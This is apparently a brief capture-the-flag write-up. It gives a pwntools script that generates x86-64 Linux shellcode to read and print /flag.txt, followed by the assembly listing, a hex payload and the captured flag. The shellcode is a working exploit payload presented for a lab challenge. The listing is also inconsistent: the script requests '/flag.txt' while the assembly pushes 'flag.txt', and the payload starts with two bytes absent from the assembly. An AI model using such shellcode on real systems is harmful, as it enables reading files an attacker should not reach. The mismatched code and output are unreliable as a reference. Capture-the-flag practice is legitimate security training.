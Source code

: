 ![](/assets/images/posts/2022-07-25-00-10-06.png)

Solver:

```py
from pwn import *

context.clear(arch = 'amd64')

shl = pwnlib.shellcraft.amd64.linux.cat('/flag.txt')
print(shl)

payload = asm(shl)

#split string every 2nd character
def split_string(string):
    return ' '.join([string[i:i+2] for i in range(0, len(string), 2)])

print(split_string(payload.hex()))
```

```
    /* push b'flag.txt\x00' */
    push 1
    dec byte ptr [rsp]
    mov rax, 0x7478742e67616c66
    push rax
    /* call open('rsp', 'O_RDONLY', 'rdx') */
    push SYS_open /* 2 */
    pop rax
    mov rdi, rsp
    xor esi, esi /* O_RDONLY */
    syscall
    /* call sendfile(1, 'rax', 0, 0x7fffffff) */
    mov r10d, 0x7fffffff
    mov rsi, rax
    push SYS_sendfile /* 0x28 */
    pop rax
    push 1
    pop rdi
    cdq /* rdx=0 */
    syscall

payload:

12 34 6a 01 fe 0c 24 48 b8 66 6c 61 67 2e 74 78 74 50 6a 02 58 48 89 e7 31 f6 0f 05 41 ba ff ff ff 7f 48 89 c6 6a 28 58 6a 01 5f 99 0f 05
```

Flag: **ROCSC{345beb24af84640e927d0637c3f53581bca3c287b4bbcf6424613ba479318ed6}**